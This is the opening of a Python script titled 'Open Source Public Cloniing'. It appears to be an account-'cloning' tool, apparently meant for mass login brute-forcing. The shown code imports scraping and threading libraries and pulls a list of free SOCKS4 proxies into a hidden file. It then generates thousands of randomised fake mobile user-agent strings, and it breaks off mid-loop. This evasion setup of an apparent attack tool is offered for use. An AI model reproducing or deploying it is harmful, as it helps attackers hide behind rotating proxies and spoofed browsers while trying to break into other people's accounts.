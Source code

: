 #Open Source Public Cloniing 
#By Mr-Qureshi
#-----------------[ IMPORT-MODULE ]-------------------
import requests,bs4,json,os,sys,random,datetime,time,re
import urllib3,rich,base64
from rich.table import Table as me
from rich.console import Console as sol
from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
from rich.console import Group as gp
from rich.panel import Panel as nel
from rich import print as cetak
from rich.markdown import Markdown as mark
from rich.columns import Columns as col
from rich import print as rprint
from rich import pretty
from rich.text import Text as tekz
pretty.install()
CON=sol()
#------------------[ USER-AGENT ]-------------------#
ugen2=[]
ugen=[]
cokbrut=[]
ses=requests.Session()
princp=[]
try:
	prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
	open('.prox.txt','w').write(prox)
except Exception as e:
#Chnge Name 
	print('[[\x1b[1;92mâ€¢\x1b[1;97m] [\x1b[1;97mMR-QURESHI-XD]')
prox=open('.prox.txt','r').read().splitlines()
for xd in range(10000):
	a='Mozilla/5.0 (Symbian/3; Series60/'
	b=random.randrange(1, 9)
	c=random.randrange(1, 9)
	d='Nokia'
	e=random.randrange(100, 9999)
	f='/110.021.0028; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/535.1 (KHTML, like Gecko) NokiaBrowser/'
	g=random.randrange(1, 9)
	h=random.randrange(1, 4)
	i=random.randrange(1, 4)
	j=random.randrange(1, 4)
	k='Mobile Safari/535.1'
	uaku=(f'{a}{b}.{c} {d}{e}{f}{g}.{h}.{i}.{j} {k}')
	ugen2.append(uaku)


	aa='Mozilla/5.0 (Linux; U; Android'
	b=random.choice(['6','7','8','9','10','11','12'])
	c=' en-us; GT-'
	d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
	e=random.randrange(1, 999)
	f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
	g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
	h=random.randrange(73,100)
	i='0'
	j=random.randrange(4200,4900)
	k=random.randrange(40,150)
	l='Mobile Safari/537.36'